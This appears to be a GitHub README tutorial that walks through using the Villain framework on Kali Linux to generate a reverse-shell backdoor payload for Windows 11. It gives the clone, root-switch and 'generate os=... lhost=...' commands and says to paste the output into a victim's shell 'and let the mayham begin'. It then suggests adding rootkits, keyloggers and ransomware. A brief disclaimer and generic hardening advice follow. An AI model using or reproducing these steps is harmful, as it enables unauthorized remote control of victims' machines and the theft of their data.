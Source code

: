 ## Kali Linux Backdoor Winows 11

- [Kali Linux Backdoor Winows 11](#kali-linux-backdoor-winows-11)
    - [functionality](#functionality)
    - [starting the attack](#starting-the-attack)
    - [disclaimer](#disclaimer)
    - [solving this exploit](#solving-this-exploit)
    - [Sources](#sources)

#### functionality

The malicious backdoor with villain function in Windows 11 Kali Linux is a technique employed by attackers to gain access to the system without the proper authorization. This is usually done by exploiting weaknesses in the system, such as weak passwords or unpatched software. Once inside, the attacker can execute malicious code, gaining access to confidential information and installing additional malicious software, such as rootkits and keyloggers. This can enable the attacker to gain control of the system and launch attacks on other systems, all without leaving any traces of their presence. Detection of this type of backdoor can be difficult, as it typically does not leave any evidence of its presence on the system.

#### starting the attack

The first thing we need is to prepare for the attack. This will entail downloading the repository with the required Tools for this attack.
This can be done with the following command:

``
git clone https://github.com/t3l3machus/Villain
``

to adjust the location of the where the folder will be downloaded on your computer you can use the `cd` command to manipulate in which directory you are e. g. 

``
cd desktop
``

Now having cloned the GitHub repository, we now can start launching the programm
this is done by going into the Villain folder that we just cloned from GitHub and starting it's programm. This can be done by the following command

``
cd path/to/Villain
``

When you execute this command you will be in the directory of Villain. Now from this point on forward I would advise that you'd switch to the root account on you kali linux or linux machine. This can be done with the following command:

``
su root
``

`su` stand for `switch user` and `root` is the most powerful account on the system. If you already used the root account before you know your password but if this is your first time using a root account you must change the password to do that. this can be done by entering following command:

``
sudo passwd root
``

Then simply input your prefered password and confirm your password. Now that your root you can start the attack. Firstly we will generate a backdoor this can be done by the following command:

``
generate os=TARGETOS lhost=YOURINTERFACE/IP
``

With this command you generate a payload for the desired `os` os meaning operating system in our case that would be `os=windows`. lhost is for defining on which interface/ip you wan't to host this backfoor in our case that would be lhost=eth0, `eth0` for the interface of your choice. After doing this there will be a command that will be outputed copy that command and put that in the windows 11 shell or any console and let the mayham begin. After having you backdoor finalized you can expand it and implement rootkits and other multiple backdoors or keyloggers and even download more malicious software such as Virus' or ransomware.

#### disclaimer 

I will not include all steps I've made for this exploit because you could do serious harm with that knowledge and I do not condone such harmful behaviour this documentation is purely for the purpose of education
 
#### solving this exploit

To ensure that Windows 11 is secure from malicious backdoors with villain functions, it is important to install the latest security patches, use strong passwords for all accounts, and enable two-factor authentication. Additionally, it is recommended to regularly scan for malware, disable unnecessary services, and limit user privileges. Finally, a good antivirus/anti-malware solution should be installed and kept up to date. Anything other than that there is nothing else to do.

#### Sources

[![](https://i.ytimg.com/vi/mC6B-RNyG2U/maxresdefault.jpg)](https://www.youtube.com/watch?v=mC6B-RNyG2U "")